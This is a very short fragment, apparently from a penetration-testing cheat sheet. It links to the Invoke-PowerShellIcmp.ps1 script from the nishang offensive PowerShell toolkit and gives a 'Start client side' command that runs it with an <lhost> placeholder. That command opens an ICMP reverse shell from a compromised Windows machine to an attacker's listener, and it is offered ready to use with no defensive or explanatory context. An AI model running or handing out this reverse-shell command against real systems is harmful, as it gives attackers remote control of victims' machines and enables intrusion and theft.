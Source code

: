 ### Source
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1  

### Start client side
```
Invoke-PowerShellIcmp -IPAddress <lhost>
```

